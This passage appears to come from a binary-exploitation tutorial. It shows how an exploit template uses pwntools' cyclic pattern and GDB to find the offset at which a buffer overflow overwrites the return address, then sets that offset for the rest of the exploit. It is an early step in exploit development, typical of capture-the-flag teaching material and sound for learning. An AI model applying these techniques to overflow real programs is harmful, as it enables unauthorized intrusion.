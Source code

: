 The template need an offset before continuing with the exploit. If any is provided it will execute the necessary code to find it (by default `OFFSET = ""`):

```bash
####################
#### Find offset ###
####################
OFFSET = ""#"A"*72
if OFFSET == "":
    gdb.attach(p.pid, "c") #Attach and continue
    payload = cyclic(1000)
    print(r.clean())
    r.sendline(payload)
    #x/wx $rsp -- Search for bytes that crashed the application
    #cyclic_find(0x6161616b) # Find the offset of those bytes
    return
```

**Execute **`python template.py` a GDB console will be opened with the program being crashed. Inside that **GDB console **execute `x/wx $rsp` to get the **bytes **that were going to overwrite the RIP. Finally get the **offset **using a **python **console:

```python
from pwn import *
cyclic_find(0x6161616b)
```

![](<../../../.gitbook/assets/image (140).png>)

After finding the offset (in this case 40) change the OFFSET variable inside the template using that value.\
`OFFSET = "A" * 40`
